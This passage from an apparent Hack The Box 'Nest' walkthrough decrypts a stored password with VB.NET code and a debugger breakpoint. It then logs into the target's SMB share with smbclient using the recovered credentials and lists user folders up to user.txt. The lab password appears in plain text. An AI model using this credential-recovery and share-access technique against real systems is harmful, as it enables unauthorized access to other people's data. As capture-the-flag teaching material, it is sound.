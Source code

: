 ```
        Dim decryptor As ICryptoTransform
        decryptor = symmetricKey.CreateDecryptor(keyBytes, initVectorBytes)

        Dim memoryStream As IO.MemoryStream
        memoryStream = New IO.MemoryStream(cipherTextBytes)

        Dim cryptoStream As CryptoStream
        cryptoStream = New CryptoStream(memoryStream, \_
                                        decryptor, \_
                                        CryptoStreamMode.Read)

        Dim plainTextBytes As Byte()
        ReDim plainTextBytes(cipherTextBytes.Length)

        Dim decryptedByteCount As Integer
        decryptedByteCount = cryptoStream.Read(plainTextBytes, \_
                                               0, \_
                                               plainTextBytes.Length)

        memoryStream.Close()
        cryptoStream.Close()

        Dim plainText As String
        plainText = Encoding.ASCII.GetString(plainTextBytes, \_
                                            0, \_
                                            decryptedByteCount)

INSERT BREAKPOINT HERE ---> Console.WriteLine(plainText)

         Return plainText
    End Function
```

I added the code Console.WriteLine(plainText) to make it easier for me to setup a breakpoint. Once we set all that up, the program will run and stop at the breakpoint. We should be able to see the value of plainText at the debugging menu.

![](https://cdn-images-1.medium.com/max/1024/0*Fq0317jhaGMsjE9F)

The password decrypted to: “xRxRxPANCAK3SxRxRx”.

We can then try logging into the smb drives using the newly acquired credentials for the user: C.Smith or Carl. In this case, only the **User** drive is relevant, as the directory listing on other drives yield essentially nothing.

```
root@kali:~/htb/nest# smbclient \\\\10.10.10.178\\Users -U C.Smith%xRxRxPANCAK3SxRxRx
Domain=[HTB-NEST] OS=[] Server=[]
Try "help" to get a list of possible commands.
smb: \> ls
  . D 0 Sat Jan 25 18:04:21 2020
  .. D 0 Sat Jan 25 18:04:21 2020
  Administrator D 0 Fri Aug 9 11:08:23 2019
  C.Smith D 0 Sun Jan 26 02:21:44 2020
  L.Frost D 0 Thu Aug 8 13:03:01 2019
  R.Thompson D 0 Thu Aug 8 13:02:50 2019
  TempUser D 0 Wed Aug 7 18:55:56 2019

        10485247 blocks of size 4096. 6545473 blocks available
smb: \> cd ./C.Smith
smb: \C.Smith\> ls
  . D 0 Sun Jan 26 02:21:44 2020
  .. D 0 Sun Jan 26 02:21:44 2020
  HQK Reporting D 0 Thu Aug 8 19:06:17 2019
  user.txt A 32 Thu Aug 8 19:05:24 2019
```